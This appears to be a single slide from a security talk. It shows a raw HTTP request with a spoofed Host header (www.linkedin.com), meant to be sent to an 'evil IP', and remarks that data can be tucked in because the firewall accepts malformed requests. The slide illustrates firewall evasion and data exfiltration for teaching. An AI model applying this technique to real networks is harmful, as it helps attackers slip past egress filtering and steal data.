

# So what if we send this to our evil IP?
GET /  HTTP/1.1
Host:  www.linkedin.com
User-Agent: Mozilla/5.0 (Windows NT 6.1)
Connection: Close

We can even put some data here since the firewall doesn’t care about malformed requests!